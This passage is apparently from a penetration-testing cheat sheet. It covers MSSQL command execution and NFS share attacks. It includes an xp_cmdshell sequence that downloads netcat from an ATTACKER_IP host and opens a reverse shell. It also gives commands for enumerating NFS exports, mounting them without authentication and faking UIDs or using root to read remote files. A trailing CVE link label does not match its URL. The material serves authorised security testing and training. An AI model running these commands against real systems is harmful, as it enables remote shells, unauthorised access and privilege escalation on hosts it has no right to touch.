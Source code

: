 ```sql
DECLARE @x AS VARCHAR(50)='xp_cmdshell'; EXEC @x 'whoami' —

-- Get netcat reverse shell
xp_cmdshell 'powershell iwr -uri http://ATTACKER_IP/nc.exe -out c:\users\public\nc.exe'
go
xp_cmdshell 'c:\users\public\nc.exe -e cmd ATTACKER_IP 443'
go
```


## 2.16 NFS - 2049

[HackTricks](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

```sh
# scan with scripts
nmap -n -v -p 2049 -sV --script="safe and nfs-*" -oA nmap/nfs-scripts $VICTIM_IP

# list all mountpoints
showmount -a $VICTIM_IP
# list all directories
showmount -d $VICTIM_IP
# list all exports (remote folders you can mount)
showmount -e $VICTIM_IP

# the exports are also in /etc/exports
# look for exports with no_root_squash/no_all_squash setting for privesc
# https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

# Mounting an exported share:
# mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
# use version 2 because it doesn't have any authentication or authorization
# if mount fails, try without vers=2
# dir may need "/"prefix
# dir is one of showmount -e results (from /etc/exports)
mkdir nfs && \
sudo mount -t nfs -o rw,nolock,vers=2 $VICTIM_IP:DIR nfs

# create user with specific UID to be able to read files on your kali box
# "-s" login shell, "-M" no create home
sudo useradd -u 1014 -s /usr/sbin/nologin -M tempuser
# removing user when done:
sudo deluser --remove-home tempuser && sudo groupdel tempuser
# or just switch to root to read nearly everything:
sudo su
# if needing a specific group:
sudo groupadd -g 1010 tempgroup
sudo usermod -a -G tempgroup tempuser
```

See also: [6.7. Using NFS for Privilege Escalation](#67-using-nfs-for-privilege-escalation)


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744